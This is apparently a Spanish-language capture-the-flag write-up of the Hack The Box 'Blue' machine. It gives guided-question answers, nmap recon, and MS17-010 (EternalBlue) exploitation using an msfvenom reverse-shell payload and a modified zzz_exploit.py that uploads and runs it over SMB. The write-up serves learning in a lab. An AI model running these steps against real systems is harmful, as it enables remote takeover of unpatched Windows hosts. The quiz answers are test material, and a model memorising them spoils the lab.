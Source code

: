 #easy #windows #nmap #ping #python27 #nmapscripts #cd #gitclone #nc-nlvp443 #revershell #msfvenom #nvim #type


---------
# Guided Mode

1)¿Cuántos puertos TCP abiertos escucha Blue? No incluya ningún puerto de 5 dígitos.
	3
	
2)¿Cuál es el nombre de host de Blue?
	haris-pc

3)¿Qué sistema operativo se está ejecutando en la máquina de destino? Dé una respuesta de dos palabras con un nombre y una versión de alto nivel.
	windows 7

4)¿Cuántas acciones SMB están disponibles en Blue?
	5

5)Qué número de boletín de seguridad de Microsoft de 2017 describe una vulnerabilidad de ejecución remota de código en SMB?
	MS17-010

6)En mayo de 2017 se soltó en Internet un gusano que se propagaba principalmente a través de MS17-010. Cuál es el famoso nombre de ese malware?
	WannaCry

7)¿Con qué usuario se ejecuta el exploit MS17-010? Incluya el nombre completo, incluyendo cualquier cosa antes de un .
	nt authority\system


-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.40
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.40 -oG allPorts
extractPorts allPorts
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN target
```

![[Blue1.png]]
![[Blue2.png]]
![[Blue3.png]]
![[Blue4.png]]
*TTL:* Maquina windows
*Puertos:*
`445`[[smb]]
*Otra informacion relevante:*
Para smb nos podemos conectar con el usuario guest, con permisos de user
Usuario:Harris
Computadora windows 7

--------
# Escaneo de [[NMAP Scripts]] [[smb]]

Como vemos que esta corriendo un [[smb]] vamos a ejecutar los [[NMAP Scripts]] que analizan vulnerabilidades sobre [[smb]]
```
nmap --script "smb-vuln*" -p445 10.10.10.40 -oN smbScan
```

![[Blue9.png]]
Como podemos ver, es vulnerable al [[CVE-2017-0143]]

-----
# Explotando [[CVE-2017-0143]]

Con [[git clone]] vamos a descargar el repositorio `git clone https://github.com/worawit/MS17-010`
Usando [[cd]] con el comando `cd MS17-010` entramos a carpeta del repositorio, listamos el contenido con [[ls]]
Y de todos estos archivos, vamos a usar solamente el *checker.py* y *zzz_exploit.py*

![[Blue10.png]]
Usando [[nvim]] abrimos el archivo *checker.py* usando el comando `nvim checker.py`

Vamos a poner de usuario *guest* que es lo que vimos vulnerable en uno de los escaneos de NMAP
![[Blue5.png]]

Y ahora con `python2-7 checker.py 10.10.10.40` Vemos que podemos usar los pipes 
![[Blue6.png]]
El pipe que nos interesa es el *lsarpc* por que es el mas completo, ya que nos deja ver usuarios, grupos, permisos ,etc


### Ya tenemos el canal de comunicacion elegido, que seria el pipe. Ahora vamos a hacer el archivo malioso que vamos a inyectar con [[msfvenom]]

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f exe -o exploit.exe --platform windows
```

![[Blue11.png]]
Tenemos creado el archivo exploit.exe para inyectar y que nos envie la [[Reverse shell]]

### Tenemos que modificar el archivo *zzz_exploit.py*
Lo abrimos nuevamente con [[nvim]] usando el comando `nvim zzz_exploit.py`
![[Blue13.png]]
En username van a poner *guest* como hicimos anteriormente.

Y ahora van a ir a la siguiente linea, pueden buscar la funcion *smb_pwn* para encontrarla

Lo vamos a poner de la siguiente manera, como esta en la foto, tengan encuenta que les puede saltar un error por los espacios y tabulacion, asi que recomiendo que sigan mi formato. Y solamente cambien la ruta donde tienen el archivo y en todo caso el nombre del mismo
![[Blue14.png]]

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    smb_send_file(smbConn, '/home/bunzo/Desktop/Blue/content/MS17-010/exploit.exe', 'C', '/exploit.exe')
    service_exec(conn, r'cmd /c c:\\exploit.exe')
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
```


 Ahora solo nos falta ponernos en escucha con [[nc -nlvp 443]] y ejecutar el exploit con `python2.7 zzz_exploit.py 10.10.10.40 lsarpc`

![[Blue15.png]]

![[Blue12.png]]

Ya estamos dentro de la maquina, ahora solo falta catear las flags con [[type]]

![[Blue7.png]]
![[Blue8.png]]

----------
# Notas

El exploit espera un archivo **binario puro** porque solo necesita el código que se va a ejecutar directamente en memoria, sin ningún extra.
Un `.exe` tiene toda la estructura de un programa (encabezados, secciones, etc.) que no sirve para inyección directa; el exploit no puede procesar ni entender ese formato completo.
Además, el `.exe` es para cuando querés que un usuario lo ejecute manualmente, no para inyectarlo directamente en memoria como hace el exploit. Por eso, para exploits se usa el `.bin` con solo el shellcode.

#### Puede ser que tengas error con impacket y python 2.7 al ejecutarlo. Yo lo que hice fue esto para poder ejecutar los scripts. Que es basicamente descargar y instalar el python con nuevas configuraciones
```shell
cd /usr/src
sudo wget https://www.python.org/ftp/python/2.7.18/Python-2.7.18.tgz
sudo tar xzf Python-2.7.18.tgz
cd Python-2.7.18
sudo ./configure --enable-optimizations
sudo make altinstall

pip2 install impacket==0.9.24
```

------------
# Creditos
Writeup Oficial HackTheBox
Y muchos otros Writeups y videos que no tengo los links, por que me aparecia error por todos lados